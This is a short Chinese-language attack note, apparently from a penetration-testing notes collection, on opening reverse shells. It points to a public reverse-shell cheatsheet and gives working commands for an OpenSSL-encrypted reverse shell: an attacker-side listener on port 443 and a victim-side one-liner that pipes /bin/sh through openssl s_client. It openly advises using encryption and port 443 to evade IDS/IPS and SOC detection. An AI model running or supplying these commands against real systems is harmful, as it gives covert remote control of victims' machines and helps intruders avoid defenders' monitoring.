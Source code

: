 

### 反弹shell的各种方法

适用于不同系统(windows/linux) 不同语言环境(python/node/Java/Golang...)

直接参考 [PayloadsAllTheThings/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

⚠️因为没有使用加密通信 所以各防御系统(IDS/IPS/SOC...)能够从通信流量中获取明文传输的通信数据(命令字符串)!

### 加密通信 - 使用OpenSSL实现加密通信

使用加密通信，能够避免"通信数据"被轻易检测

因为SSL/TLS加密通信流量常见于443端口,所以建议使用443端口进行通信(避免在不常见端口使用 导致告警)

```shell
# hacker
hacker@kali$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
hacker@kali$ openssl s_server -quiet -key key.pem -cert cert.pem -port 443
or
hacker@kali$ ncat --ssl -vv -l -p 443


# victim
user@company$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:443 > /tmp/s; rm /tmp/s
```
